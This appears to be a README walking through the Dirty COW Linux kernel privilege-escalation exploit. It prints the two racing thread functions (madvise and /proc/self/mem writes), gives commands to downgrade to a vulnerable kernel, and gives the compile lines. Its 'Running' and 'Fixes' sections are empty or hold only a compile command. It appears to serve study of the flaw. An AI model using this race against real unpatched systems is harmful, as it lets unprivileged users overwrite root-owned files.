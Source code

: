
# Dirty Cow exploit

## Exploit Overview
"A race condition was found in the way Linux kernel's memory subsystem
handled breakage of the read only private mappings COW situation on
write access.

An unprivileged local user could use this flaw to gain
write access to otherwise read only memory mappings and thus increase
their privileges on the system." - [From Redhat CVE](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#)

The exploit leverages two functions madvise(MADV_DONTNEED) and open("/proc/self/mem",O_RDWR), to create a race condition between the two. Simply stated, we map the file to be changed to a copy that we can write to. We aren't able to write this copied file to the original file because we don't have the necessary permissions, however we are able to circumvent this via the race condition.

The first function, madvise, looks like this:

```
void *madviseThread(void *arg){
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<100000000;i++)
    {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("madvise %d\n\n",c);
  }
```
The madvice call is used mainly for optimization by allowing the user to give advice/directions to the kernel about how the given address range will be used. In this case we tell it that we don't need the first 100 bytes by passing 100, MADV_DONTNEED. The man page specifies that this means "do not expect access in the near future" and that the memory access will differ now in that any "subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file". This is very important to the exploit as it tells us that everytime we try to access this file we will repopulate the contents, which is part of the race condition.

The second function, proc/self/mem uses 'proc' which acts a pseudo-file system that helps runs most file operations in linux (everything is a file is very powerful here). /proc/self/mem is a "file" that contains the current process' memory, which we use to write to our file.

```
void *procselfmemThread(void *arg){
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```
The above code attempts to write the passed argument string in the memory of the process in the location of the mapped file. This tries to write to the copy of the file, creating a copy-on-write event. 

This should not work and the two methods working independent of each other would not cause such an exploit to occur, but when raced against each other, an edge case occurs in which the actual file is written to instead of the mapped file. This allows us, for this simple case, to write to a file with root only write permission

## Compilation

This is a relatively recent zero day and as such works on any of the kernels before the ones listed below, as they are the ones where the patch was added:

[Patched Kernels](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)

If your kernel is newer, use the following commands based on your operating system, where $image-number-here$ is a kernel number before the ones in the link above. We highly recomend you search for the complete image name in your prefered OS and replace it below, as only the image number will not be the entire name of the package.

####Ubuntu
```
sudo apt-get install linux-image-$image-number-here$
sudo apt-get install linux-headers-$image-number-here$
```
####Debian
```
aptitude install linux-image-$image-number-here$
aptitude install linux-headers-$image-number-here$
```
####Arch
```
pacman -U linux-$image-number-here$.pkg.tar.xz linux-headers-$image-number-here$.pkg.tar.xz
```
After you downgrade your kernel, the compilation is as such

```
gcc -pthread dirtyc0w.c -o dirtyc0w
```
The -pthread option is included because of the multithread aspect of the exploit, the man page for gcc tells us that it "Adds support for multithreading with the pthreads library. This option sets flags for both the preprocessor and linker".

## Running


## Fixes
```
gcc -pthread -o dirty_cow dirty_cow.c
```

